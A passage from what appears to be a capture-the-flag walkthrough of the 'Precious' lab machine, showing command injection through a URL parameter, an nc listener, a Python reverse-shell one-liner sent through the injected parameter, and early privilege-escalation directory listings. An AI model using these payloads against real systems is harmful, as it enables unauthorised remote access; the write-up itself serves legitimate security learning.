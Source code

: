 After inputting this to the site, I was returned a pdf that displayed my user id. Confirming that code injection worked, I chose to establish a reverse shell using Python. When establishing a reverse shell in general, you want to have a listener on your attacking machine, and for your victim machine to execute code that will establish remote connection to **you**.

I validated Python existed on the box.
```
http://10.10.14.6/?bruh=%20`which python3`
```
![Untitled]({{ image_path }}/precious/img21.png)

Awesome, it exists, I can carry on with my plan. I started my listener using `nc`.
```
nc -lvnp 7777
```
I grabbed my reverse shell code from [revshells.com](revshells.com), which has a curated list of reverse shells for different technologies. Again, this is the code to be executed on the victim machine. I can execute this code the same way I executed the `id` and `which python3` command - through the web application.
```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.6",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```
The web server should also still be running. The program needs some valid web page as that is part of the intended functionality. The unintended functionality - the exploit, is the URL parameter. I sent the following URL to obtain my reverse shell.
```
http://10.10.14.6/?bruh=%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.6",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`
```
![Untitled]({{ image_path }}/precious/img23.png)
And there was my shell.
![Untitled]({{ image_path }}/precious/img22.png)

# Privilege Escalation
I had access to the machine, but I was user `ruby`. The first thing I do after initial access to a machine is look at the obvious such as the contents of files (including hidden files).
```
$ ls -lah
total 36K
drwxr-xr-x 6 root root 4.0K Oct 26  2022 .
drwxr-xr-x 4 root root 4.0K Oct 26  2022 ..
drwxr-xr-x 4 root ruby 4.0K Oct 26  2022 app
drwxr-xr-x 2 root ruby 4.0K Oct 26  2022 config
-rw-r--r-- 1 root ruby   59 Sep 10  2022 config.ru
-rw-r--r-- 1 root ruby   99 Sep 17  2022 Gemfile
-rw-r--r-- 1 root ruby  478 Sep 26  2022 Gemfile.lock
drwxrwxr-x 2 root ruby 4.0K Sep 26 15:54 pdf
drwxr-xr-x 4 root ruby 4.0K Oct 26  2022 public
```
The directory I landed in didn't seem to be a home directory. Instead, I was in `/var/www/pdfapp`. After some digging in that directory, I looked into `ruby`'s home directory.
```
$ ls -lah
total 28K
drwxr-xr-x 4 ruby ruby 4.0K Sep 24 22:04 .
drwxr-xr-x 4 root root 4.0K Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3.5K Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4.0K Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4.0K Sep 24 22:04 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```